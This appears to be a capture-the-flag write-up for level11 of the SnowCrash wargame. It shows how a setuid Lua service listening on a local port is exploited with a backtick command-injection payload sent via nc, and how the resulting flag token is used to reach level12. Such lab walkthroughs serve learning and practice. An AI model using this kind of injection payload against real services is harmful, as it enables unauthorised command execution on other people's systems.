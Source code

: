 # level11

Using `ls`, we can discover a lua file.

```bash
level11@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x 1 flag11 level11 668 Mar  5  2016 level11.lua
```

Firstable, we can try `f05d1d066fb246efe0c6f7d095f909a7a0cf34a0` and the value, `NotSoEasy` as flag but it dosen't work.

Let's run the lua script.

```bash
level11@SnowCrash:~$ ./level11.lua 
lua: ./level11.lua:3: address already in use
stack traceback:
    [C]: in function 'assert'
    ./level11.lua:3: in main chunk
    [C]: ?
```

Already launch, lets exploit. After playing around, we can use the following payload we previously seen.

```bash
level11@SnowCrash:~$ nc 127.0.0.1 5151
Password: `getflag` > /tmp/flag
Erf nope..
level11@SnowCrash:~$ cat /tmp/flag
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```

Let's head to level12.

```bash
level11@SnowCrash:~$ su level12
Password: 
level12@SnowCrash:~$ 
```
